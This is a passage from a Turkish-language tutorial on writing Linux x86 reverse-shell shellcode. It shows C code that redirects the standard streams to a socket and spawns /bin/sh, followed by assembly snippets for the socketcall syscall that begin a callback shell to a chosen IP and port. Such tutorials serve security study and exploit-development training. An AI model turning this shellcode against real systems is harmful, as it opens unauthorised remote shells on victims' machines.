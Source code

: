 ```cpp

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### assembly hazırlığı 

C kaynak kodunda gösterildiği gibi, aşağıdaki çağrıları Assembly diline çevirmek gerekiyor:
- bir socket oluşturun.    
- belirtilen bir IP ve port’a bağlanın.    
- ardından, stdin, stdout, stderr'i `dup2` ile yönlendirin.     
- `execve` ile bir shell başlatın.     

### socket oluşturalım        

Socket işlemleri için, `SYS_SOCKETCALL` (sistem çağrısı `0x66`) kullanılır:

![sys_socketcall](./images/14/2021-10-16_12-29.png){width="80%"}       

Ardından, `eax` kaydını temizleyin:    

```nasm
; int socketcall(int call, unsigned long *args);
push 0x66        ; sys_socketcall 102
pop  eax         ; zero out eax
```

Bir sonraki önemli kısım, socketcall sistem çağrısının farklı fonksiyon çağrılarıdır. Bu çağrılar `/usr/include/linux/net.h` dosyasında bulunabilir:     

![socketcall syscall](./images/14/2021-10-16_12-34.png){width="80%"}       

Bu nedenle, önce `SYS_SOCKET` (`0x1`) ile başlamanız gerekiyor. Ardından, `ebx` kaydını temizleyin:

```nasm
push 0x1         ; sys_socket 0x1
pop  ebx         ; zero out ebx
```

`socket()` çağrısı temelde 3 argüman alır ve bir socket dosya tanıtıcısı döndürür:

```cpp
sockfd = socket(int socket_family, int socket_type, int protocol);
```
